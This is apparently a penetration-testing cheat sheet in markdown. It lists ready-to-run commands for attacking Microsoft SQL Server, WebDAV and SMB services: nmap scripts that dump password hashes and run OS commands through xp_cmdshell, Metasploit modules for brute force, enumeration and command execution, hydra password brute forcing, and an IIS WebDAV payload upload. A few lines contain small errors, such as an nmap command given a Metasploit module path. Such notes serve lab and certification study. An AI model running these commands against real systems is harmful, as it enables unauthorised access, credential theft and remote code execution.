 
## MSSQL

Default port: 1433

```bash
##Getting more information from the MSSQL server
nmap $ip -p 1433 --script=ms-sql-info

##Checking the ntml info
nmap $ip -p 1433 --script=ms-sql-ntlm-info --script-args=mssql.instance-port=1433

##Checking for empty passwords
nmap $ip -p 1433 --script=ms-sql-empty-password

##Running a query on the server and place that output in a file (authenticated)
nmap $ip -p 1433 --script=ms-sql-query --script-args=mssql.username=admin,mssql.password=password,ms-sql-query.query="SELECT * FROM * master..syslogins" -oN out.txt

##Dumping hashes from the server (authenticated)
nmap $ip -p 1433 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=password

##Running commands (Authenticated
nmap $ip -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=password,ms-sql-xp-cmdshell.cmd="ipconfig"

##Brute forcing with MSF
use auxiliary/scanner/mssql/mssql_login

##Enumerating with MSF
use auxiliary/admin/mssql/mssql_enum

##Enumerating logins with MSF
use auxiliary/admin/mssql/mssql_enum_sql_logins

##Running commands with MSF
use auxiliary/admin/mssql/mssql_exec

##Enumerating domain accounts or all available users with MSF
nmap auxiliary/admin/mssql/mssql_enum_domain_accounts
```

# System/Host based attacks

```bash
##Brute forcing WEBDAV with hydra 
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt $ip http-get /webdav/

##Testing connection to webdav with davtest
davtest -url http://$ip/webdav

##Authenticated test against webdav 
davtest -auth bob:password_123321 -url http://$ip/webdav

##Getting a shell on the websdav server using cadaver
cadaver http://$ip/webdav

##Uploading an IIS webdav payload via MSF
use exploit/windows/iis/iis_webdav_upload_asp

##SMB Brute force login with MSF
use auxiliary/scanner/smb/smb_login
```